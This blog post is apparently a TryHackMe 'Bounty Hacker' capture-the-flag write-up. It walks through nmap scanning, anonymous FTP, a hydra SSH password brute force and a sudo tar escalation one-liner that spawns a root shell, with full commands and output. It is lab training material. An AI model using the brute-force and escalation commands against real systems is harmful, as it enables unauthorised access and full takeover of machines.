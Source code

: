 +++ 
categories = ["Hugo"] 
date = "2020-08-27" 
description = "Bounty Hacker - TryHackMe Writeup"

featuredalt = "" 
featuredpath = "date" 
linktitle = "" 
title = "Bounty Hacker - TryHackMe Writeup" 
slug = "Bounty Hacker - TryHackMe Writeup" 
type = "post" 
+++




### Bounty Hacker - TryHackMe Writeup

![Bounty Hacker - TryHackMe](https://r-bch.fr/content/images/size/w2000/2020/07/9ad38a2cc31d6ae0030c888aca7fe646.jpeg)



Welcome to my WriteUp. Ok So our journy starts from question 3 but before every question we need to enumerate the mechine. So Let's do it with **nmap**

## Service enumeration

```
# nmap -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-27 02:25 +06
Nmap scan report for 10.10.196.2
Host is up (0.31s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.67.68
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.50 seconds

```

Here we have port 21,22,80 open and we can see ftp have anonymous login allowed so let's do it.
```
Username : Anonymous
Password : Anonymous # In this mechine we don't need password to login.
```

## FTP enumeration

```
# ftp $ip
Connected to 10.10.196.2.
220 (vsFTPd 3.0.3)
Name (10.10.196.2:root): Anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
```

Here we have 2 text file. Grab it on our computer using mget *
If You want to download file one by one then you can simply use **get filename.ext**

```
ftp> mget *
mget locks.txt? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.00 secs (350.0884 kB/s)
mget task.txt? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (220.6188 kB/s)
ftp> exit
221 Goodbye.
```
Ok So now we have two text file. From this two we will get our 3rd question answer.
If we look at question number 4 it say's **What service can you bruteforce with the text file found?** The text file locks.txt looks like a dictionary file we can bruteforce with this file on ssh using hydra.


## Bruteforce

**-l (Username)**
**-P (Password file)**

```
hydra -l lin -P ./locks.txt ssh://$ip 
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-27 02:31:57
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.196.2:22/
[22][ssh] host: $ip   login: lin   password: Re***4g***yn***at*
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-28 02:32:03

```

Now we have ssh username and password so let's login on ssh.

```
# ssh lin@$ip

lin@10.10.196.2's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)


lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{C****_SyN******}
```

Here we got our **User.txt**


## Privilege Escalation


Now we have to get root.txt

If you try :
```
lin@bountyhacker:~/Desktop$ cat /root/root.txt
cat: /root/root.txt: Permission denied
```
So we have to get root access.
Start with ** sudo -l **
```
lin@bountyhacker:~$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```


We can run root using ** tar **
Now we need to find Root Escalation for tar. I always use gtfobins.github.io for this type of escalation.
If we search tar on GTFOBINS then we will found a line of code in **Sudo Section**
```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

You need to copy this code and pest on your bountyhacker ssh shell

```
lin@bountyhacker:~$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
THM{8***Y_h****r}
```


**Congratulations** you just complete Bounty Hacker from TryHackMe.
Thank You and see you on next writeup.

















